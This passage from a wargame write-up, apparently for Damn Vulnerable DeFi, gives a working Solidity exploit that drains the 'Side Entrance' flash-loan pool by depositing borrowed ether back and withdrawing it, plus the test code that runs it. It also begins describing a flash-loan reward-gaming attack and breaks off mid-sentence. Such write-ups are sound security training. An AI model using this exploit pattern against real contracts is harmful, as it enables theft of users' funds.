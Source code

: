 ## 4. Side Entrance

To understand this exploit logic, see the diagram below:

![](C:\Users\eduar\Documents\Cursos\Python\DataFlair\Material\2022-08-08-16-58-41-image.png)

Solition (contract):

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./SideEntranceLenderPool.sol";

contract SideEntranceExploit {
    SideEntranceLenderPool immutable pool;

    constructor(address _pool) {
        pool = SideEntranceLenderPool(_pool);
    }

    function attack() public {
        pool.flashLoan(address(pool).balance);
        pool.withdraw();
        payable(msg.sender).transfer(address(this).balance);
    }

    function execute() public payable {
        pool.deposit{value: msg.value}();
    }

    receive() external payable {}
}
```

Solution (challenge):

```javascript
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const SideEntranceExploitFactory = await ethers.getContractFactory('SideEntranceExploit', deployer);
        const exploit = (await SideEntranceExploitFactory.deploy(this.pool.address)).connect(attacker);
        await exploit.attack()
    });
```

## 5. The Rewarder

This opens it up to a potential predatory deposit. As soon as there’s a new rewards round we can deposit a very large amount and earn rewards on our deposit. Then we can return the flashloan and keep the rewards. The steps are
